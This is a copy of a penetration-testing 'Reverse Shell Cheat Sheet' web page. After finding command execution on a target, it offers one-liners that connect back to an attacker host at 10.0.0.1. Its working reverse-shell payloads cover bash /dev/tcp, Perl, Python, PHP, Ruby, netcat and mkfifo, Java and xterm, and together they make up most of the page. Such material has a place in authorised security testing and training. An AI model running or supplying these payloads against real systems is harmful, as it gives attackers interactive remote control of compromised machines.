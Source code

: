 Reverse Shell Cheat Sheet
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port. This page deals with
the former.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.
The examples shown are tailored to Unix-like systems. Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.
Each of the methods below is aimed to be a one-liner that you can copy/paste. As such they’re quite short lines, but not very readable.
Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
There’s also an alternative PERL revere shell here.
Python
This was tested under Linux / Python 2.7:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP
This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6...
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
nc -e /bin/sh 10.0.0.1 1234
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]
xterm
One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.
xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):
Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):
xhost +targetip
